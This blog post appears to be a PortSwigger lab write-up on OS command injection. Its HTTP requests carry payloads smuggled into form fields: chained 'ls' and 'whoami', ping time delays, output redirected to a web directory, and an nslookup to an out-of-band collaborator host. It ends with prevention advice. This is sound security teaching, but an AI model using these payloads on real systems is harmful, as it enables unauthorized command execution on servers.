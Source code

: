 ```yaml
---
layout: post
title: "OS command injection"
date: 2025-07-04 00:00:00 +0100
categories: [portswigger, hacking]
tags: [lab, theory, os command injection, injection]
---
```


![oscom](pics/oscom.png)

### Intro

**Ways of injecting OS commands**
You can use a number of shell metacharacters to perform OS command injection attacks.
A number of characters function as command separators, allowing commands to be chained together.
- The following command separators work on both Windows and Unix-based systems:

```
&
&&
|
||
```

- The following command separators work only on Unix-based systems:

```
;
Newline (0x0a or \n)
```

- On Unix-based systems, you can also use backticks or the dollar character to perform inline execution of an injected command within the original command:

```
`
injected command `
$(
injected command )
```

The different shell metacharacters have subtly different behaviors that might change whether they work in certain situations. This could impact whether they allow in-band retrieval of command output or are useful only for blind exploitation.

Sometimes, the input that you control appears within quotation marks in the original command. In this situation, you need to terminate the quoted context (using " or ') before using suitable shell metacharacters to inject a new command.

#### Lab: OS command injection, simple case

- In the first lab it's just enough to add `; whoami` or `| whoami`

```html
POST /product/stock HTTP/2
Host: 0a31002b03679591816cd40a002600a1.web-security-academy.net
Cookie: session=THWO7HZQldRPMz3ZYkKT0lsVDNHzeseM
Content-Length: 29
Sec-Ch-Ua-Platform: "Linux"
Accept-Language: en-US,en;q=0.9
Sec-Ch-Ua: "Not)A;Brand";v="8", "Chromium";v="138"
Content-Type: application/x-www-form-urlencoded
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/138.0.0.0 Safari/537.36
Accept: */*
Origin: https://0a31002b03679591816cd40a002600a1.web-security-academy.net
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://0a31002b03679591816cd40a002600a1.web-security-academy.net/product?productId=1
Accept-Encoding: gzip, deflate, br
Priority: u=1, i

productId=1&storeId=1; ls
```

#### Lab: Blind OS command injection with time delays
- Sometimes there could exist an OS injection but no output is visible on the page
- Payload we will use here: `;+ping+-c+10+127.0.0.1+;` or `||+ping+-c+10+127.0.0.1+||`

```html
POST /feedback/submit HTTP/2
Host: 0a560086039d9558810aed3d007f008c.web-security-academy.net
Cookie: session=4gFfy2ssANmqNQA7KiLnSRtotOekEZGt
Content-Length: 118
Sec-Ch-Ua-Platform: "Linux"
Accept-Language: en-US,en;q=0.9
Sec-Ch-Ua: "Not)A;Brand";v="8", "Chromium";v="138"
Content-Type: application/x-www-form-urlencoded
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/138.0.0.0 Safari/537.36
Accept: */*
Origin: https://0a560086039d9558810aed3d007f008c.web-security-academy.net
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://0a560086039d9558810aed3d007f008c.web-security-academy.net/feedback
Accept-Encoding: gzip, deflate, br
Priority: u=1, i

csrf=V6DwtmblzfcEqr1EUdUEi3PCf5ydo1oP&name=adam&email=test%40mail;+ping+-c+10+127.0.0.1+;&subject=topic&message=some
```

#### Lab: Blind OS command injection with output redirection

- We know that images is writable directory here so we could run this

```html
POST /feedback/submit HTTP/2
Host: 0adb007f046a861080c021ea001a00a4.web-security-academy.net
Cookie: session=E46IF9bjVPjipdCQWTapMdCFCYFBpQTW
Content-Length: 126
Sec-Ch-Ua-Platform: "Linux"
Accept-Language: en-US,en;q=0.9
Sec-Ch-Ua: "Not)A;Brand";v="8", "Chromium";v="138"
Content-Type: application/x-www-form-urlencoded
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/138.0.0.0 Safari/537.36
Accept: */*
Origin: https://0adb007f046a861080c021ea001a00a4.web-security-academy.net
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://0adb007f046a861080c021ea001a00a4.web-security-academy.net/feedback
Accept-Encoding: gzip, deflate, br
Priority: u=1, i

csrf=SPR8A8SsnBj3oJuOjE0VzIQuvNYrlzyz&name=arst&email=test%40mail;whoami+>+/var/www/images/whoami.txt;&subject=ra&message=mess
```

- Next just open any image and update filename to `whoami.txt`

#### Lab: Blind OS command injection with out-of-band interaction

- Even I have no professional Burp (and collaborator) I was able to force labs to think that I did and solved this lab (UUID is just a random one)

```html
POST /feedback/submit HTTP/2
Host: 0a56009d03d5eb48800a6c57007a00a6.web-security-academy.net
Cookie: session=0TmmO3obs4FavUfC9RflkVF4PnXznQjm
Content-Length: 159
Sec-Ch-Ua-Platform: "Linux"
Accept-Language: en-US,en;q=0.9
Sec-Ch-Ua: "Not)A;Brand";v="8", "Chromium";v="138"
Content-Type: application/x-www-form-urlencoded
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/138.0.0.0 Safari/537.36
Accept: */*
Origin: https://0a56009d03d5eb48800a6c57007a00a6.web-security-academy.net
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://0a56009d03d5eb48800a6c57007a00a6.web-security-academy.net/feedback
Accept-Encoding: gzip, deflate, br
Priority: u=1, i

csrf=QrdBPnCXp3zmJsq3XW2sSEI73vBHtmtW&name=adam&email=t||+nslookup+https://6a982ff9-729f-4771-9ef2-32a200569897.burpcollaborator.net+||&subject=sub&message=mes
```
### How to prevent OS command injection attacks
1. Avoid Calling the Shell (Best Practice)
- Don’t use system(), exec(), popen(), shell_exec() or similar functions.
- Instead, use language-native APIs that don't involve the shell.

```python
# Bad
os.system("ping " + user_input)

# Ok
subprocess.run(["ping", user_input])  # safer with list, no shell involved, input validated, shell=False
```

2. Validate and Sanitize Input
- Strict allowlists (whitelists) for acceptable inputs.
- Use regular expressions to validate input format.
- Reject or sanitize unexpected input early.

```python
import re
if not re.fullmatch(r'[a-zA-Z0-9]+', user_input):
    raise ValueError("Invalid input")
```

3. Escape Arguments Properly
- If you absolutely must call the shell:
- Use argument escaping libraries.

```python
import shlex
command = "ping " + shlex.quote(user_input)
```

!But this is not fully secure. Avoid shell if possible.

4. Principle of Least Privilege
- Run applications and services with minimal privileges.
- Avoid running as `root` or `Administrator` unless absolutely necessary.

5. Web App Firewalls (WAFs)
- Deploy a WAF to block common command injection patterns.
- Should complement, not replace, proper code defenses.

6. Use Security Linters/Scanners
- Tools like Bandit (for Python), SonarQube, or Semgrep can catch unsafe function use.

7. Educate Developers
- Train devs on secure coding practices.
- Include code review checklists for security risks.
